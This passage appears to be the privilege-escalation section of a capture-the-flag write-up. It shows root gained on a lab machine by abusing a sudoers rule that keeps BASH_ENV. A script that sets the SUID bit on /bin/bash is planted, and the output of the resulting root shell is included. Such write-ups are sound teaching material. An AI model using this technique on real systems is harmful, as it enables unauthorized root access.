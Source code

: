 ```bash
```

# Root
Taking a look at `sudo -l` we find that we can run a custom script called `/usr/bin/systeminfo`

```bash
 sudo -l
[sudo] password for hish:
Sorry, try again.
[sudo] password for hish:
Matching Defaults entries for hish on environment:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+="ENV BASH_ENV", use_pty                                                                    
User hish may run the following commands on environment:
    (ALL) /usr/bin/systeminfo
```

Within the script is the following:

```bash
#!/bin/bash
echo -e "\n### Displaying kernel ring buffer logs (dmesg) ###"
dmesg | tail -n 10

echo -e "\n### Checking system-wide open ports ###"
ss -antlp

echo -e "\n### Displaying information about all mounted filesystems ###"
mount | column -t

echo -e "\n### Checking system resource limits ###"
ulimit -a

echo -e "\n### Displaying loaded kernel modules ###"
lsmod | head -n 10

echo -e "\n### Checking disk usage for all filesystems ###"
df -h
```

 seeing that `BASH_ENV` is being preserved in the `sudoers` configuration, we can change this to any script we want, in this case I'll create script to change the `SUID` bit of `/bin/bash`

```bash
echo 'chmod u+s /bin/bash' > /tmp/exploit.sh
chmod +x /tmp/exploit.sh
```

Now let's export this file to be our environment variable `BASH_ENV` 

```bash
export BASH_ENV=/tmp/exploit.sh
```

Run the bash script to execute our exploit, and run `/bin/bash` with `-p` to preserve our permissions.

```bash
sudo systeminfo
/bin/bash -p
bash: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)
bash-5.2# whoami
root
bash-5.2#
```

Just like that we have root!